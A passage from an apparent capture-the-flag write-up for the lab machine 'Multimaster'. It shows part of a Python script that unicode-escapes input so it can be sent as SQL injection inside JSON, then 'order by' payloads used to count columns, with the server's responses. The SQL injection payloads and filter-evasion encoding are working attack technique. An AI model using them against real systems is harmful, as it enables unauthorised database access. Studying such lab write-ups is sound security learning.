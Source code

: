  print\(json.dumps\(json\_response, indent=4, sort\_keys=True\)\)

terminal = Terminal\(\)

terminal.cmdloop\(\)

The "cmd" module handles the loop and capturing input when entered. It is passed to the default method as the parameter args. The first part of this converts each character in the input into its ASCII code and then appends that to "\u00". The entire string is then sent as part of a JSON request to the server. The response is JSON and we can use the json module in Python to print out the response indented.

The first thing we will do with this is to see how many columns are returned in the query. There are 5 values in the JSON returned normally and so we know that there are at least 5 columns. We can test this by using the injection "' order by 5-- -"

┌─\[✗\]─\[rin@parrot\]─\[~/boxes/Multimaster\]

└──╼ $./inject.py

&gt; ' order by 5-- -

\[\*\] Sending \u0027\u0020\u006f\u0072\u0064\u0065\u0072\u0020\u0062\u0079\u0020\u0035\u002d\u002d\u0020\u002d

\[

 {

 "email": "aldom@megacorp.htb",

 "id": 15,

 "name": "Alessandro Dominguez",

 "position": "Senior Web Developer",

 "src": "aldom.jpg"

 },

 {

 "email": "alyx@megacorp.htb",

 "id": 11,

 "name": "Alyx Walters",

 "position": "Automation Engineer",

 "src": "alyx.jpg"

 },

That works, so let us try 6:

&gt; ' order by 6-- -

\[\*\] Sending \u0027\u0020\u006f\u0072\u0064\u0065\u0072\u0020\u0062\u0079\u0020\u0036\u002d\u002d\u0020\u002d

null
